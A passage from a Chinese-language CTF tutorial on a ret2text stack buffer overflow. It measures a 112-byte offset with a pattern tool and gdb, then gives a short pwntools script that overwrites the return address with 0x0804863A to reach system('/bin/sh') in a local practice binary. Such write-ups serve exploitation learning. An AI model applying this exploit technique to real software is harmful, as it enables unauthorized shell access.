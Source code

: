 ​		看到内存地址是0x0804863A，我们需要将RET的值改写为这个地址即可实现get shell。下面只需要测出缓冲区起始地址到返回地址的空间大小，然后构造payload即可（把缓冲区填满，并且覆盖后面的RET）。

![](/img/in-post/ROP/5.PNG)



​		使用pattern.py生成200个不重复的字符（网上可以容易找到这个工具），然后打开gdb（linux下的一个调试工具），运行ret2text，把刚刚复制的内容输进去。按照一开始的分析，程序会报错，将报错地址复制下来，利用pattern查看偏移量，发现是112，说明我们需要填充112个字节的内容，就能到达RET的位置。我们再在该位置填入0x0804863A即可。

![](/img/in-post/ROP/6.PNG)



​		编写exp：在提示"anything?"后面输入112个a，然后再填上0x804863A （system(“/bin/sh”)）的地址。

```python
from pwn import *
p=process('./ret2text')
addr=0x804863A
p.sendlineafter("anything?",'a'*112+p32(addr))
p.interactive()
```
